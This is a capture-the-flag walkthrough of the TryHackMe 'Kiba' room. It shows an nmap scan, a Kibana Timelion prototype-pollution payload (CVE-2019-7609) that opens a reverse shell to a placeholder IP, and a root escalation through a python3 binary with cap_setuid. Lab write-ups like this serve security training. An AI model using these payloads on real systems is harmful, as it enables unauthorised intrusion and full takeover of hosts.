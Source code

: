 ```bash
# PLATFORM          . THM
# CTF NAME          . Kiba
# DESCRIPTION       . Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/kiba
```

```
sudo nmap -sSVC -T5 -p- 10.10.144.127 -oN kiba
```

```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9df8d157132481b6185d048ed2384f90 (RSA)
|   256 e1e67aa1a11cbe03d24e271b0d0aecb1 (ECDSA)
|_  256 2abae5c5fb51381745e7b154caa1a3fc (ED25519)

80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

5044/tcp open  lxi-evntsvc?

5601/tcp open  esmagent?
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Mon, 25 Dec 2023 14:35:17 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Mon, 25 Dec 2023 14:35:17 GMT
|_    {"statusCode":404,"error":"Not Found"}
```

- There's nothing useful on webserver running on port 80. 
- However, after the nmap scan, we see that kibana appears to be running on port `5601`.

- By checking the source code, we find out that the kibana version running is `6.5.4`. This can also be visible by navigating to `Management` dashboard.

- After some googling around, I found out that Kibana versions `3.0` - `5.6.14` and `6.0.0` - `6.6.0` are vulnerable to `cve-2019-7609`, which allows RCE by using a `prototype pollution` vulnerability in the `Timelion` feature of Kibana.

- After some googling around, I found the following payload for Timelion

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("sh -i >& /dev/tcp/IP/3131 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- However, in my case, this didn't work so I've used [this](https://github.com/LandGrey/CVE-2019-7609/) script instead.

- The first flag is located in `/home/kiba/user.txt`.

- Using `getcap -r /` we find one particularly useful capability set 

```
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

- This can be leveraged to escalate privileges to root.

```
kiba@ubuntu:~$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- The last flag is in `/root/root.txt`.